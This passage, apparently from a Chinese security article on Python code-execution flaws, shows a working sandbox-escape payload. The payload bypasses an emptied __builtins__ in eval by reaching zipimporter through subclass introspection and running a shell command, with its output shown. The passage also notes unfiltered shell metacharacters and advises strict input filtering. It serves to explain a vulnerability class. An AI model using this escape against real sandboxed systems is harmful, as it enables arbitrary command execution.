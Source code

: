 仅仅是将`__builtings__`置为空，如下方式即可绕过

```
>>> s2="""
... [x for x in ().__class__.__bases__[0].__subclasses__()
...    if x.__name__ == "zipimporter"][0](
...      "/home/liaoxinxi/eval_test/configobj-4.4.0-py2.5.egg").load_module(
...      "configobj").os.system("uname")
... """
>>> eval(s2,{'__builtins__':{}})
Linux
0

```

2 执行命令接口封装不彻底
-------------

在底层封装函数没有过滤shell元字符，仅仅是限定一些命令，但是其参数未做控制.

0x0a 总结
=======

* * *

一切输入都是不可靠的，做好严格过滤。